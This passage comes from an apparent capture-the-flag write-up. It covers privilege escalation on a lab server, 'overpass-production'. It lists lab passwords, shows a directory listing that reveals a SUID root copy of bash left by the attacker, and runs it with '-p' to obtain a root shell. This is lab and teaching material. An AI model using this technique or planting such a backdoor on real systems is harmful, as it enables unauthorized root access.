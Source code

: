 
### Elevating Privileges

At the time of the compromise, `james` had unrestricted `sudo` access on Overpass's server. Though the password `november16` will grant backdoor access to the `james` account, it isn't actually `james`'s account password. At the time of the compromise, it was `whenevernoteartinstant`, but it appears the TA has changed it. Thus, `james`'s previous unrestricted `sudo` access can't be used to elevate privileges.

It turns out the TA left another mechanism for privilege escalation: the hidden file `/home/james/.suid_bash`.

```bash
james@overpass-production:/home/james$ ls -la

total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

As its name describes, this is an executable that grants the user a `bash` shell with `root` privileges. Execute it as so and note the effective user ID (eid):

```bash
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```
